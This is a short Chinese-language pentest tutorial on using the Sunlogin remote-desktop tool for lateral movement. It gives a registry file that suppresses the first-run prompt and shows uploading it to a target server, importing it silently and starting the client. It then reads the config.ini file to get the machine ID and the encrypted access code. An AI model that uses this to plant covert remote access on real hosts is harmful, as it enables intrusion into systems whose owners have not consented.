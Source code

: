 # 利用远控工具向日葵横向移动

## 向日葵介绍

向日葵远程控制软件是一款免费的集远程控制电脑/手机/平板、远程桌面连接、远程开机、远程管理、支持内网穿 透的一体化远程控制管理工具软件，且还能进行远程文件传输、远程摄像头监控等。 

支持系统：Winodws/Linux/MacOS/Android/iOS

## 向日葵远控连接

### 向日葵 免安装 的时候第一次会进入选择界面

![image-20230306151352018](https://img.gyxnb.top/img/image-20230306151352018.png)

### 使用提前注册 注册表 的方式进行绕过弹窗

#### 注册表文件如下

```
Windows Registry Editor Version 5.00
[HKEY_CURRENT_USER\SOFTWARE\Oray\SunLogin\SunloginClient]
"11.1.0.37237_IsRunSeted"="1"
```

#### 将以上的代码保存为，xxx.reg 如（1.reg）

![image-20230306151425503](https://img.gyxnb.top/img/image-20230306151425503.png)

### 将文件传到目标服务器

![image-20230306151446436](https://img.gyxnb.top/img/image-20230306151446436.png)

### 运行注册注册表的命令和运行向日葵

```
regedit ‐s 3.reg #注册注册表
SunloginClient.exe #运行向日葵
```

![image-20230306151523822](https://img.gyxnb.top/img/image-20230306151523822.png)

### 查看向日葵配置文件

```
shell type C:\ProgramData\Oray\SunloginClient\config.ini
fastcode：本机识别码去掉k
encry_pwd：本机验证码，密文无法直接解密
```

![image-20230306151550878](https://img.gyxnb.top/img/image-20230306151550878.png)
